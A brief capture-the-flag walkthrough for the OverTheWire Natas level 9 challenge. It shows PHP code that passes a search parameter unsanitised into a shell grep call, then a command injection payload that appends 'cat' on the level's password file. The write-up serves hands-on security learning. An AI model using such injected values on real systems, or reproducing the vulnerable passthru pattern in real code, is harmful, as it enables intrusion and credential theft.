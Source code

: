 # Natas 9 -> 10

```
http://natas9.natas.labs.overthewire.org
```

```
Username: natas9
```

This time we have a search form and a source code.  

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

Well, seems that we can send a `$_POST` or a `$_GET` with the `needle` key. If that isn't empty, it'll try to `grep` in `dictionary.txt`. That looks exploitable.  
Let's try concatenating a couple of commands:


```
?needle=;cat /etc/natas_webpass/natas10;ls
```

Bingo !


* php
* grep
* https://bash.cyberciti.biz/guide/Multiple_commands

